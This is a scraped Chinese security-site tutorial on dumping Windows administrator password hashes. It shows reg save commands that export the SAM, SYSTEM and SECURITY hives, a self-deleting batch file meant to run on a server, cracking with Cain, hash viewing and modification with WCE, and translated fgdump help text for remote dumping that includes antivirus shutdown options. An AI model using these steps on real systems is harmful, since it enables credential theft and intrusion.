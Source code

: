 
## CAIN



打开CAIN选择LSA Secrets然后打开system.hive 和security.hive两个文件




加载后我们可以看到一些信息，这些信息可能会有明文密码，我这里是没有的。

如果没有我们就需要抓HASH了。点击CAIN的Cracker选项卡，加载sam.hive文件


拿到HASH了，www.jb51.net 下面就是破解，用工具自带的破解试试密码出来了，我设置的123456


•			脚本之家
•			软件下载
•			源码下载
•			在线工具
•			网页教程基础
•			服务器常用软件
•			手机版
•			  
关注微信

•	topNav End
￼


导航
•			网页制作
•			网络编程
•			脚本专栏
•			脚本下载
•			数据库
•			CMS教程
•			电子书籍
•			平面设计
•			媒体动画
•			操作系统
•			网站运营
•			网络安全
•			在线手册
导航结束
您的位置： 主页 \> 网络安全 \> 黑客教程 \>

•	head End
•	
•	content Star
抓取管理员hash值（哈希）的另类方法
作者：佚名 字体：[增加 减小]() 来源：互联网 时间：05-11 10:44:12 我要评论
哈希算法将任意长度的二进制值映射为固定长度的较小二进制值，这个小的二进制值称为哈希值。哈希值是一段数据唯一且极其紧凑的数值表示形式。如果散列一段明文而且哪怕只更改该段落的一个字母，随后的哈希都将产生不同的值。要找到散列为同一个值的两个不同的输入，在计


今天抓hash的时候发现GetHashes.exe不好使..另外又测试了几个也都不好用... 
不同版本的Windows的hash获取方法不一样.
用到的工具有pwdump7.exe、GetHashes.exe、SAMInside.exe、LC5、Cain、Proactive Password Auditor、Ophcrack.
 于是百度了一些资料穿上来！希望大家能学习一下。
 ====================================第1种===========================================
 使用工具 cain、cmd、wce1.2等
 首先使用通用方法抓取HASH
 使用命令先保存一份需要的信息。
 reg save hklm\sam sam.hive
 reg save hklm\system system.hive
 reg save hklm\security security.hive
 （这三个文件我找了个批处理,这样比较方便）
 ==========================
 @echo off
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
del %0
 ===========================
 保存为批处理文件,直接在服务器上运行。
 就会在批处理所在目录生成这三个文件
 和下面的效果一样，只不过简化了步骤
￼
然后我们使用CAIN打开保存到的system.hive 和security.hive两个文件。我是在虚拟机里面操作就直接在虚拟机里面搞了。。大家在服务器上搞可以下载到本地。
 打开CAIN选择LSA Secrets然后打开system.hive 和security.hive两个文件

加载后我们可以看到一些信息，这些信息可能会有明文密码，我这里是没有的。
￼
如果没有我们就需要抓HASH了。点击CAIN的Cracker选项卡，加载sam.hive文件。
￼

拿到HASH了，www.jb51.net 下面就是破解，用工具自带的破解试试密码出来了，我设置的123456
￼
我们也可以使用彩虹表来破解
下面我们使用wce来搞。。这个工具是渗透利器哈具体介绍大家自己百度去。
￼
从帮助来看我们可以使用-l参数查看NTML hash
 我们还可以用-s参数来改HASH值如图
￼
从图中我们可以看到最后一位的HASH我从4修改到了5

====================================第2种===========================================
fgdump 可以远程抓Hash的工具
 作者：TheLostMind
一直都是本地抓，今天上SamInside论坛看到一个开源的工具，fgdump，可以远程抓。
 http://swamp.foofus.net/fizzgig/fgdump/fgdump-usage.htm
 fgDump 2.1.0 - fizzgig and the mighty group at foofus.net
Written to make j0m0kun's life just a bit easier
Copyright(C) 2008 fizzgig and foofus.net
fgdump comes with ABSOLUTELY NO WARRANTY!
This is free software, and you are welcome to redistribute it
under certain conditions; see the COPYING and README files for
more information.
Usage:
fgdump [-?]()[-t]()[-c]()[-w]()[-s]()[-r]()[-v]()[-k]()[-o]()[-a]()[-O 32|64]()[-l logfile]()[-T threads]() [{{-h Host | -f filename} -u Username -p Password | -H filename}]()
where Username and Password have administrator credentials
-? displays help (you're looking at it!)
-t will test for the presence of antivirus without actually running the password dumps
-c skips the cache dump
-w skips the password dump
-s performs the protected storage dump
-r forgets about existing pwdump/cachedump files. The default behavior is to skip a host if these files already exist.
-v makes output more verbose. Use twice for greater effect
-k keeps the pwdump/cachedump going even if antivirus is in an unknown state
-l logs all output to logfile
-T runs fgdump with the specified number of parallel threads
-h is the name of the single host to perform the dumps against
-f reads hosts from a line-separated file
-H reads host:username:password from a line-separated file (per-host credentials)
-o skips pwdump history dumps
-a will not attempt to detect or shut down antivirus, even if it is present
 -O manually sets whether the target is a 32- or 64-bit OS. Note that this applies to all hosts specified.
** As of version 1.4.0, you can run fgdump with no parameters to dump the local box (no impersonation or binding)
测试了一下，很不错，简单翻译了一下帮助。
 用法:
fgdump [-?]()[-t]()[-c]()[-w]()[-s]()[-r]()[-v]()[-k]()[-o]()[-a]()[-O 32|64]()[-l logfile]()[-T threads]() [{{-h Host | -f filename} -u
]() Username -p Password | -H filename}]
 用户名和密码要求要有管理员资格
 -? 显示帮助
-t 测试当前的杀毒软件，并不是真正的转储密码
-c 跳过缓存转储
-w 跳过密码转储
-s 执行保护存贮转储
-r 忽略现存的pwdump/cachedump文件。默认的行为是跳过存在这些文件的主机。
-v 详细输出. 使用两次能获得更为详细的输出
-k 即使不知道杀毒软件的状态也继续执行pwdump/cachedump（进行密码转储）
-l 记录所有输出到日志文件
-T 使用指定数量的线程执行此程序
-h 需要执行密码转储的单个目标主机
-f 从用行分隔的文件中读取主机列表
-H 从用行分隔的文件中读取 主机名:用户名:密码
-o 跳过转储历史密码
-a 试图检测或关闭杀毒软件，即使杀毒软件正在运行
 -O 手工设置远程主机是32位操作系统还是64位操作系统。 注意：这项操作应用到所有指定的主机。
 ** 使用1.4.0,你可以直接运行此程序，不需要带参数，来转储本机密码
endmain


Tag：Hash  
相关文章
•			2016-02-15  
浅析XSS与XSSI异同
•			2016-02-01  
Android平台的SQL注入漏洞浅析(一条短信控制你的手机)
•			2016-02-01  
黑客七大惯用攻击策略(攻击与防范)
•			2016-01-27  
XSS跨站脚本攻击问题和原理详解
•			2016-01-20  
剖析DDoS攻击原理
•			2016-01-19  
防止xss攻击的有效方法
•			2015-12-17  
ARP欺骗原理以及路由器的先天免疫
•			2015-12-14  
防止CSRF攻击ASP.NET应用
•			2015-11-10  
比特币偷窃程序Dyreza的实现思路分析
•			2015-11-05  
CCProxy代理软件中隐藏的阴谋分析
•			2015-10-29  
管理员需知的DDOS攻击防御手册
•			2015-10-29  
高手轻松教你如何针对DDos部署防御措施

评论(0人参与，0条评论)

￼
放置cbox初始状态
展开状态
来说两句吧...
•			
•			  
  
  

表情 上传图片 uploading-efw
发布


放置cbox发布状态 用户登录
•			微博登录   

•			QQ登录   

•			手机登录   

提示条 零评论提示条
还没有评论，快来抢沙发吧！
评论列表 S
最新评论

评论列表 E
评论关闭 翻页

某站正在使用畅言
Powered by 畅言
•			
endborder
end fl

文章分类
•			黑客教程 安全设置 杀毒防毒 病毒查杀 脚本攻防 黑客入侵 工具使用 业界动态 Exploit 漏洞分析 加密解密 手机黑客 安全其它 

大家感兴趣的内容
•			1  
怎么盗别人的qq密码 新手指南
•			2  
最经典的黑客入门教程(必备技能)
•			3  
零距离感受入侵服务器 
•			4  
菜鸟拿WebShell的经验 
•			5  
局域网入侵完全版
•			6  
webshell 提权方法 服务器提权教程
•			7  
黑客基础知识 常用命令和快捷键大全
•			8  
网页挂马详细步骤教程
•			9  
网页挂马方法和技巧大汇总
•			10  
服务器 提权方法大全

最近更新的内容
•			浅析XSS与XSSI异同
•			Android平台的SQL注入漏洞浅析(一条短信控制你的手机)
•			黑客七大惯用攻击策略(攻击与防范)
•			XSS跨站脚本攻击问题和原理详解
•			剖析DDoS攻击原理
•			防止xss攻击的有效方法
•			ARP欺骗原理以及路由器的先天免疫
•			防止CSRF攻击ASP.NET应用
•			比特币偷窃程序Dyreza的实现思路分析
•			CCProxy代理软件中隐藏的阴谋分析



end fr
•	end content
关于我们 - 广告合作 - 联系我们 - 免责声明 - 网站地图 - 投诉建议 - 在线投稿
©CopyRight 2006-2016 JB51.Net Inc All Rights Reserved. 脚本之家 版权所有

